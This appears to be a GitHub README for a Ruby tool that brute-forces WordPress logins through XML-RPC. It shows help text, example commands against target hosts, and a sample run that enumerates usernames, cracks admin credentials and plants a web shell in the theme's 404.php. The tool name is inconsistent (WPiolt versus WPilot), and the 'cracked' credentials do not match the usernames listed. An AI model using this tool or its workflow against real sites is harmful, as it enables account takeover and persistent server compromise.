 #WPiolt

================================================================================================

WPiolt - Wordpress Bruteforce tool via XML-RPC. The basic version only provides limited functionalities.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby WPiolt.rb  -h

 _    _ ______  _  _          
| |  | || ___ \(_)| |       | |  
| |  | || |_/ / _ | |  ___  | |_      
| |/\| ||  __/ | || | / _ \ | __|       
\  /\  /| |    | || || (_) || |_          Basic Version - 0.1 by Andy Yang
 \/  \/ \_|    |_||_| \___/ \__|          contactayang[AT]gmail[DOT]com
                                 
WPiolt - Wordpress Bruteforce tool via XML-RPC by Andy Yang

EXAMPLE USAGE:

     ./WPilot.rb  -t 'www.target.com' -d '/User/eve/dic.txt'
     ./WPilot.rb  -t '10.0.0.1/wordpress' -d '/User/eve/dic.txt'
    -t, --Target URL/IP              Wordpress target URL or IP
    -d, --Dictionary path            Dictionary file for password Bruteforce.
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby WPilot.rb -t '192.168.0.11/wordpress' -d '/dic'

[Info]     Checking if the target is vulnerable........

[Info]     Target is vulnerable!!!

[Info]     Retreving usernames........

[Info]      Found username: admin

[Info]      Found username: Alice

[Info]      Found username: Bob

[Info]      Bruteforcing passwords ........

[Info]      Cracked Admin Creds: andy:1234567

[Info]      Uploading shell into 404.php..........

[DONE]      Please check a non existing post for the uploaded web shell


